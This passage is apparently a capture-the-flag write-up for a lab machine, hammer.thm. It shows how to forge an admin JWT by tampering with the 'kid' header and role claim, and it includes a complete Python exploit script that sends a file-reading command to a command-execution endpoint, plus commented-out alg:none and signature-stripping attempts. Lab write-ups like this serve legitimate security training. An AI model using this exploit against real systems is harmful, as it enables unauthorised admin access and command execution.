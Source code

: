 # Retrieving the flag

...



### Exploiting the JWT `kid` header value

Upon analysis of the retrieved JWT token value ([http://jwt.io/](http://jwt.io/)), I noticed that the `kid` field present in the headers. Moreover, I noticed the `role` field in the payload, which controls the user role. The goal will be to change this value to a higher privilege user such as `admin`.

Based on the OWASP WSTG testing guide ([https://github.com/OWASP/wstg/blob/master/document/4-Web\_Application\_Security\_Testing/06-Session\_Management\_Testing/10-Testing\_JSON\_Web\_Tokens.md](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens.md)), I decided to test the JWT based vulnerabilities.

1. &#x20;

```
        # token = self.s.cookies.get('token')

        # token = token[:-1] # jwt not vuln to malformed singature
        # token = token.rsplit('.', 1)[0] # jwt not vuln to missing signature

        # jwt not vuln to 'alg': 'none', 'alg': 'NoNe'
        # token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoiL3Zhci93d3cvbXlrZXkua2V5In0.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ4NzExMTgyLCJleHAiOjE3NDg3MTQ3ODIsImRhdGEiOnsidXNlcl9pZCI6MiwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19'+'.' + token.split('.')[
        #     2]
```

**Python script:**

```python
import requests
import jwt

class JWT_KID_EXPLOIT():
    s = requests.Session()
    PORT = 1337
    email = 'tester@hammer.thm'
    password = '1'

    def __init__(self, IP):
        self.IP = IP
        self.URL = f'http://{IP}:{self.PORT}'

    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})

    def start(self):
        # login
        self.login()

        key = '56058354efb3daa97ebab00fabd7a7d7'
        payload = {
            "iss": "http://hammer.thm",
            "aud": "http://hammer.thm",
            "iat": 1748754378,
            "exp": 1749757978,
            "data": {
                "user_id": 1,
                "email": "tester@hammer.thm",
                "role": "admin"
            }
        }
        headers = {
            "typ": "JWT",
            "alg": "HS256",
            "kid": "188ade1.key"  # changed from '/var/html/mykey.key' -> '188ade1.key'
        }

        token = jwt.encode(payload, key, algorithm='HS256', headers=headers)
        command = 'cat /home/ubuntu/flag.txt'  # command to read flag

        print(f'[INFO] token={token}')

        res = self.s.post(f'{self.URL}/execute_command.php',
                          headers={
                              'Content-Type': 'application/json', 'Authorization': f'Bearer {token}'},
                          json={
                              'command': command
        })

        print(f'[INFO] {res.status_code}')
        print(f'[INFO] {res.text}')


IP = input('[!] Enter the target IP address: ')

jwt_exploit = JWT_KID_EXPLOIT(IP)
jwt_exploit.start()

```
